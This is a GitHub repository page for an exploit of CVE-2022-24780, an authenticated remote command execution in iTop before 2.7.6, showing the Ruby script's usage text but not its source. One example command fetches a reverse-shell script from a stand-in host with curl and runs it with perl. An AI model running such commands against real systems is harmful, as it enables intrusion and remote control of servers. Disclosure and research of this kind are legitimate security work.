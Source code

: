# exploit-CVE-2022-24780

iTop < 2.7.6 - (Authenticated) Remote command execution

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Acceis](https://github.com/Acceis) |
| Url      | [https://github.com/Acceis/exploit-CVE-2022-24780](https://github.com/Acceis/exploit-CVE-2022-24780)                                               |
| Stars    | 5                                                          |
| License  | MIT License                                                        |

<details><summary>Topic / Tags</summary></details>

## Readme

# iTop RCE via SSTI - CVE-2022-24780 exploit

> iTop < 2.7.6 - (Authenticated) Remote command execution

Exploit for [CVE-2022-24780][CVE-2022-24780].

[[EDB-TODO](https://www.exploit-db.com/exploits/TODO)] [[PacketStorm](https://packetstormsecurity.com/files/167236/iTop-Remote-Command-Execution.html)] [[WLB-2022050075](https://cxsecurity.com/issue/WLB-2022050075)]

## Usage

```
$ ruby exploit.rb -h
iTop < 2.7.6 - (Authenticated) Remote command execution

Usage:
  exploit.rb full <url> <username> <password> <cmd> [--debug]
  exploit.rb light <url> <username> <password> <cmd> [--debug]
  exploit.rb -h | --help

  full: exploit with an emulated browser, execute JavaScript, preserve original user profile information
  light: just parse HTML and send requests, no JavaScript, (DESTRUCTIVE) reset user information: phone, location, function

Options:
  <url>       Root URL (base path) including HTTP scheme, port and root folder
  <username>  iTop portal username
  <password>  iTop portal user password
  <cmd>       Command to execute on the target
  --debug     Display arguments
  -h, --help  Show this screen

Examples:
  exploit.rb full http://example.org john 's9nvEIZnEo6ghi' 'echo proof > /var/www/html/proof.txt'
  exploit.rb light https://example.org:5000/itop john 's9nvEIZnEo6ghi' 'curl --remote-name http://pentest.example.com:7000/revshell.pl; perl revshell.pl'
```
